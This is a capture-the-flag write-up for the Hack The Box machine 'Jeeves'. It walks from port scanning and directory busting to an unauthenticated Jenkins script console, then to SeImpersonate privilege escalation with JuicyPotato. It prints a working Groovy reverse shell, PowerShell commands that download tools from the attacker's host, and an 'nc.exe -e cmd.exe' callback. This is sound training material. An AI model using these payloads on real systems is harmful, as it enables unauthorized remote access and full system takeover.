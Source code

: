 # Jeeves [htb](https://app.hackthebox.com/machines/114)

![jeeves-01]()

## Recon

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02]()


Lets scan the target with: 

`nmap -sC -sV -p- -A jeeves.htb -oN nmap.result`

![nmap-res-03]()


We get the following:

+ IIS v10.0 server on port 80. 
+ RCP endpoint mapper on port 135. 
+ SMB on port 445.
+ Jetty v9.4 server on port 50000.

Lets take a quick look at the SMB and see if we can snatch any quick wins. 


### SMB 445

Lets try connecting with a null session: 

`smbclient -U '%' -N \\\\jeeves.htb\\IPC$`

![null-fail-04]()


Lets try crackmapexec:

`crackmapexec smb jeeves.htb -u '' -p '' --users`

![crackmap-fail-05]()


Looks like we need credentials, lets move on to the IIS server on port 80.


### IIS 80

Lets open our browser and navigate towards `http://jeeves.htb/`

![jeeves-site-06]()


If we try to search anything in the search bar, we get redirectred to this `error.html` page:

![err-html-07]()


This is a predetermined outcome no matter what we input:

![source-08]()


We can't really interact with the SQL server at the moment, no request is actually being sent 
to the server, i've tested this with Burp. We can use tools to try and extract information 
from the SQL server but we need credentials. We might try that later on if we need to.

Iv'e also tried directory and subdomain enumeration, thats not the way forward, nothing comes up. 

We can conclude from this page that we might have an SQL server somewhere in the environnment and 
we know its type an version. Searching for exploits is not the way forward in this case either. 

Lets check the Jetty server on port 50000.


### Jetty 50000

Lets navigate towards `http://jeeves.htb:50000`

![jetty-site-09]()


Nothing here. If we try directory busting we find something interesting:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3
-medium.txt:FUZZ -u http://jeeves.htb:50000/FUZZ`

![ffuf-res-10]()


This leads us to an unauthenticated Jenkins portal:

![jenkins-11]()


We could try to login, but why would we if we can access the script console? :

![script-console-12]()


We can use the following Groovy reverse shell

```java
String host="10.10.14.68";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

+ Make sure to update your IP. 

+ Start the listener with `nc -lnvp 8044`

+ Paste the script to the script console and execute. 

![exec-13]()


+ Get a shell:

![shell-14]()




## Privilege Escalation

If we list out our user's privileges with `whoami /priv`:

![priv-15]()


We can see we have the `SeImpersonate` privilege enabled, this is bad. This means we can try and
use [juicypotato](https://github.com/ohpe/juicy-potato) to get `NT_AUTHORITY`. 

+ download `juicypotatos` and transfer to the target with:
`powershell "Invoke-WebRequest -Uri http://10.10.14.68/JuicyPotato.exe -OutFile C:\Users\kohsuke\juicypotato.exe"`


+ Transfer `/usr/share/windows-resources/binaries/nc.exe` to the target as well with:

`powershell "Invoke-WebRequest -Uri http://10.10.14.68/nc.exe -OutFile C:\Users\kohsuke\nc.exe"`


+ Start the listener with: `nc -lnvp 9009`.


+ Execute the exploit with:

`juicypotato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\kohsuke\nc.exe -e cmd.exe 10.10.14.68 9009" -t *`

![execute-16]()


+ Get `NT_AUTHORITY`:

![root-17]()


If you want the `root.txt` flag, you wont find it in the admin's desktop folder simply with `dir`.
In CTF's we should always look for alternative data streams, which can be seen with `dir /R`:


![altr-strm-18]()


To get the contents of the file redirect it to `more` as such:

`more < hm.txt:root.txt`

![root-flag-18]()



